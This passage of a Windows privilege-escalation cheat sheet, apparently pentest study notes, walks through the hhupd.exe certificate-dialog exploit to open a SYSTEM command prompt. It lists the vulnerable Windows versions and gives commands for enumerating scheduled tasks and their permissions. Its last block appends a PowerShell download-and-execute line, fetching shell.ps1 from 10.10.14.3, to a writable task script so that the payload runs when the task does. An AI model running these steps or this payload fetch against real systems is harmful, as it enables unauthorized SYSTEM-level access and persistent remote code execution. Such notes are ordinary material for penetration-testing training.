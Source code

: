 ### Exploitation Steps
```cmd
# 1. Right-click hhupd.exe > Run as administrator
# 2. Click "Show information about the publisher's certificate"
# 3. Navigate to General tab
# 4. Click hyperlink in "Issued by" field
# 5. Browser opens as NT AUTHORITY\SYSTEM
# 6. Right-click webpage > View page source
# 7. Right-click source > Save as
# 8. Type in Save As dialog: c:\windows\system32\cmd.exe
# 9. Press Enter = CMD as SYSTEM
```

### Vulnerable Versions
```cmd
# Patched: November 2019
# Check for vulnerable systems:
- Windows Server 2008/2012/2016/2019 (pre-patch)
- Windows 7/8/10 (pre-November 2019)
- Legacy systems without updates
```

## 📅 Scheduled Task Enumeration

### Basic Task Enumeration
```cmd
# List scheduled tasks:
schtasks /query /fo LIST /v

# PowerShell enumeration:
Get-ScheduledTask | select TaskName,State

# Filter for interesting tasks:
Get-ScheduledTask | where {$_.TaskName -notlike "*Microsoft*"} | select TaskName,State
```

### Task Permission Analysis
```cmd
# Check task directory permissions:
.\accesschk64.exe /accepteula -s -d C:\Windows\System32\Tasks

# Look for writable task directories:
C:\Scripts\                    # Custom script directories
C:\Windows\Tasks\              # Legacy task location
C:\ProgramData\*\Tasks\        # Application-specific tasks
```

### Task Script Modification
```cmd
# Check script permissions in task directories:
.\accesschk64.exe /accepteula -s -d C:\Scripts\

# Example output:
C:\Scripts
  RW BUILTIN\Users           # Writable by standard users!
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators

# Modify existing scripts:
echo "powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.3/shell.ps1')" >> C:\Scripts\backup.ps1
```
